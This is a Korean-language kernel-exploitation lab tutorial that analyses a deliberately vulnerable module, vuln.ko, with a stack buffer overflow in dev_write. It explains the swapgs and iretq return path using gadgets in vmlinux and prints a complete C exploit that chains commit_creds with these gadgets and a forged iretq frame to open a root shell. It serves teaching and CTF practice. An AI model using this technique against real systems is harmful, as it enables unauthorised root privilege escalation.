


# 2-4. 사용자 영역으로 돌아오는 다리 놓기

이제 `swapgs`와 `iretq`를 사용하여 커널 영역에서 권한 상승을 마치고 사용자 영역으로 무사히 돌아오는 실습을 진행해 보겠습니다!

먼저 실습 자료 폴더(chall) 안에 있는 `return.zip` 파일을 다운로드하여 압축을 풀어주세요.

(참고: 실습 환경을 구축하는 방법 및 제공되는 파일들의 용도는 1-3장과 완벽히 동일하므로 생략하겠습니다. 앞으로 등장할 모든 실습 문제들의 기본 세팅은 1-3장과 같습니다!)

## vuln\.ko 분석 : 달라진 win\_function

디컴파일러로 `vuln.ko`를 열어보면, 1장에서 보았던 `dev_write` 함수가 완전히 똑같은 형태로 정의되어 있습니다. 즉, 64바이트 버퍼를 넘치게 하여 반환 주소를 덮어쓸 수 있는 버퍼 오버플로우 취약점은 여전히 유효합니다.

그런데 모듈 안에 정의된 <b>`win_function`</b>의 모습이 조금 달라졌습니다. 코드를 살펴볼까요?
```c
void win_function()
{
  __int64 v0; // rax

  printk(a1: &unk_840);
  /* 이번 문제에서는 플래그를 읽지 않고 '권한 상승'만 수행합니다! */
  v0 = prepare_kernel_cred(a1: &init_task);
  commit_creds(a1: v0);
  // 어라? 1장에 있던 panic() 함수가 사라졌습니다!
}
```

1장과의 결정적인 차이가 보이시나요? 1장에서는 플래그를 출력한 뒤 커널을 강제로 죽이는 panic() 함수가 있었지만, 이번에는 **권한 상승(commit_creds)만 수행하고 함수가 정상적으로 끝(return)납니다.**

### 잠깐! 그럼 1장과 똑같은 방법으로 공격하면 어떻게 되나요?

만약 1장에서 짰던 익스플로잇 코드를 그대로 가져와서 반환 주소를 `win_function` 으로만 덮어쓰면 어떻게 될까요?



아쉽게도 커널 패닉(Crash)이 발생하며 실험 환경이 죽어버립니다. 커널 로그를 보면 `win_function`이 실행되었다는 메시지는 떴는데, 도대체 왜 죽은 걸까요? **루트(root) 권한은 얻었는데 정작 이것이 우리에게 돌아오지 못했습니다!**

해답은 바로 **함수가 끝난 직후**에 있습니다.

`win_function`의 실행을 마치고 원래 위치로 돌아가기 위해 `ret` 명령어를 실행하는 순간, 커널은 현재 스택의 최상단에서 다음 실행할 주소를 꺼냅니다.

그런데 버퍼 오버플로우 공격을 하느라 우리가 커널 스택을 오염시켰죠? 위 사진의 에러 로그를 보면 RIP가 0010:0x10000이라는 엉뚱한 주소로 옮겨진 것을 볼 수 있습니다. 당연히 정의되지 않은 영역의 코드를 실행하려 했으므로 커널이 패닉한 것입니다.

## 유저 영역으로 돌아올 계획 세우기

우리의 커널 익스플로잇 계획을 다시 한 번 살펴봅시다.

1. 루트 권한 획득하기. 현재 `win_function`을 실행했으므로 이 과정은 해냈습니다.
2. `swapgs` 를 실행하여 사용자/커널 메모리 교체하기.
3. `iretq` 를 실행하여 사용자 영역으로 실행 흐름 복귀하기.

우리는 현재 1번 과정은 성공했지만 2, 3번 과정이 빠진 상황입니다. 저들을 순서대로 진행해 봅시다.

먼저 `swapgs` 는 어떻게 실행시켜야 할까요? 이 명령어는 커널에서만 쓰는 특별한 명령어이므로, 운영체제 실행파일인 `vmlinux`의 코드 영역을 뒤져서 쓸만한 `swapgs` 코드 조각을 찾아야 합니다.


`vmlinux` 파일에서 다른 함수들을 조사해 보면, 위 사진처럼 `paranoid_entry` 라는 함수가 있습니다. 여기서 `paranoid_entry+0x98` 위치에 있는 `swapgs` 명령어에 주목하세요! 이 명령어 뒤에는 `nop`(No Operation. 아무 작업도 하지 않습니다.)이 가득 있고, 마지막에 `jmp __pi___x86_return_thunk`를 실행합니다.

우리가 `win_function` 종료 이후 실행 흐름을 이 위치로 옮긴다면, `swapgs`를 실행한 이후 `nop` 명령어를 줄줄이 타고 이동하다 마지막에 `jmp __pi___x86_return_thunk` 로 실행 흐름이 옮겨집니다. 1장에서도 슬쩍 언급이 된 함수지만, 이 함수는 사실 `ret`와 작동 방식이 완벽하게 같습니다!

따라서 `paranoid_entry+0x98`로 실행 흐름이 옮겨지면, 커널에서는 사실상 `swapgs; ret;`이 순서대로 실행됩니다. gs 레지스터가 사용자 영역의 것으로 바르게 교체되었고, `ret`이 실행될 때 스택에서 값이 하나가 더 나와 실행 흐름을 한 번 더 원하는 곳으로 옮길 수 있습니다.

이제 `iretq`만 실행하면 됩니다! `iretq`는 어디에 있을까요?


우리가 `entry_SYSCALL_64 `를 분석했을 때 `iretq`가 한 분기에 있었음을 기억하시나요? 주소상 `entry_SYSCALL_64+0x164a`에 위치합니다. `swapgs`를 실행한 이후 이 위치로 실행을 옮긴다면 `iretq`를 실행할 수 있습니다!


## 익스플로잇 작성하기

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#define NUM 88

/* 권한을 상승시킨 후에는 이 영역으로 돌아와서 셸을 획득합니다. */
void win_shell(void) {
    printf("[*] YES!!!!! I GOT A ROOT SHELL!!!!!\n");
    execl("/bin/sh", "sh", NULL); // (*) 중요! 반드시 execl()을 사용해야 합니다!
}

int main() {
    // 1. 취약한 장치 열기
    int fd = open("/dev/vuln", O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open /dev/vuln");
        return -1;
    }

    // 2. 페이로드 구성
    // k_buffer(64) + SFP(24) = 88바이트를 쓰레기 값으로 채움
    // 버퍼는 64바이트이고, ret 이전에 3개의 값이 POP 됩니다.
    char payload[200] = { 0 };
    memset(payload, 'A', NUM);

    unsigned long win_addr = 0xffffffffc0000010; // win_function
    unsigned long swapgs = 0xffffffff810017c0 + 0x98; // paranoid_entry + 0x98
    unsigned long iretq = 0xffffffff81000080 + 0x164a; // entry_SYACALL_64 + 0x164a

    /* 먼저 win_function, swapgs, iretq 를 순서대로 스택에 넣습니다. */
    memcpy(payload + NUM, &win_addr, 8);
    memcpy(payload + NUM + 8, &swapgs, 8);
    memcpy(payload + NUM + 16, &iretq, 8);

    /* iretq가 사용할 trap frame을 설정합니다.*/
    unsigned long iretq_stack[5] = {0};
    unsigned long fake_stack[2048] = {0}; // 가짜 스택 공간입니다.
    iretq_stack[0] = (unsigned long)&win_shell; // RIP. 커널 영역에서 사용자 영역으로 돌아올 때는 즉시 셸을 획득할 수 있게 해 줍시다.
    iretq_stack[1] = 0x33; // CS.
    iretq_stack[2] = 0x202; // RFLAGS.
    iretq_stack[3] = (unsigned long)(fake_stack) + 2048; // RSP.
    iretq_stack[4] = 0x2b; // SS.
    
    memcpy(payload + NUM + 24, &iretq_stack, 40); // iretq가 실행될 때
    
    printf("[+] Sending exploit payload...\n");

    // 3. write를 실행하여 dev_write 함수를 공격합니다.
    write(fd, payload, NUM + 64);

    close(fd);
    return 0;
}
```



축하합니다!